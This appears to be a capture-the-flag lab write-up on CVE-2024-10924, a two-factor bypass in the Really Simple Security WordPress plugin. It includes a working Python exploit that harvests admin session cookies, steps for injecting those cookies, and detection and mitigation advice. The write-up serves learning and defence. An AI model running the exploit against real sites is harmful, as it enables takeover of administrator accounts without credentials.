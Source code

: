 # Bypass Really Simple Security

## Summary

In this room, we explored the CVE-2024-10924 vulnerability found in the "Really Simple Security" plugin for WordPress. This vulnerability allows an attacker to bypass two-factor authentication (2FA) and gain unauthorized access to user accounts, including those with administrative privileges.

## Techniques Used

- REST API manipulation.
- WordPress authentication bypass.
- Using cookies to access administrator accounts.

## Tools Used

- `Python` for automated exploitation.
- `requests` to make HTTP requests.
- `Burp Suite` for analyzing and modifying requests.
- `Firefox Developer Tools` for cookie injection.

## Commands Executed

```bash
# Example of exploitation using the Python script
python exploit.py 1
```

## Vulnerability Analysis

### How the Vulnerability Works

The issue lies in the improper validation of the `login_nonce` parameter, allowing an attacker to send a **POST** request to the following endpoint:

```
/reallysimplessl/v1/two_fa/skip_onboarding
```

The request parameters used are:

- **user\_id** = ID of the target user.
- **redirect\_to** = URL to redirect to after login.
- **login\_nonce** = Random value that is not properly validated.

This allows generating valid authentication cookies without needing credentials, resulting in a complete account takeover.

### Exploitation

To exploit this vulnerability, a **Python script** was used that:

1. Sends a **POST** request to the vulnerable endpoint with the mentioned parameters.
2. Extracts **session cookies** returned by the server.
3. Allows injecting these cookies into a browser to access `/wp-admin` as an administrator.

```python
import requests
import sys

if len(sys.argv) != 2:
    print("Usage: python exploit.py <user_id>")
    sys.exit(1)

user_id = sys.argv[1]

url = "http://vulnerablewp.thm:8080/?rest_route=/reallysimplessl/v1/two_fa/skip_onboarding"
data = {
    "user_id": int(user_id),
    "login_nonce": "invalid_nonce",
    "redirect_to": "/wp-admin/"
}

response = requests.post(url, json=data)

if response.status_code == 200:
    print("Request successful!\n")
    cookies = response.cookies.get_dict()
    for name, value in cookies.items():
        print(f"{name}: {value}")
else:
    print("Request failed! Status Code:", response.status_code)
```

### Cookie Injection

1. Copy the generated cookies.
2. Open the browser developer tools (`F12` > `Storage` > `Cookies`).
3. Manually add the cookies with the extracted values.
4. Navigate to `http://vulnerablewp.thm:8080/wp-admin` and access the admin panel.

## Detection and Mitigation

### 🔍 Detection Methods

To detect exploitation attempts of **CVE-2024-10924**, activity logs can be analyzed:

- **Check web logs** for suspicious requests to the endpoint:
  ```
  rest_route=/reallysimplessl/v1/two_fa/skip_onboarding
  ```
  with repeated or invalid parameters (`user_id`, `login_nonce`).
- **Analyze authentication logs**, looking for login attempts that bypass 2FA validation.
- **SIEM queries**, such as:
  ```sql
  method:POST AND path:"/reallysimplessl/v1/two_fa/skip_onboarding"
  ```
  to monitor possible attacks.

### 🛠 Mitigation Steps

To fix the vulnerability, the following improvements were implemented:

- **Strict validation of authentication parameters.**
- **Proper error handling** in `skip_onboarding` to prevent invalid authentication attempts.
- **Updating the plugin** to version **9.1.2 or later**, which patches this vulnerability.

## Screenshots or Evidence

*Include images demonstrating successful exploitation.*

## Conclusion and Learnings

- **CVE-2024-10924** highlights the importance of properly validating API requests.
- Exploiting **authentication flaws in WordPress** can lead to full system compromise.
- **Keeping plugins updated** and enabling **auto-updates** is essential.
- **Proactive monitoring** with SIEM tools is key to detecting attacks early.

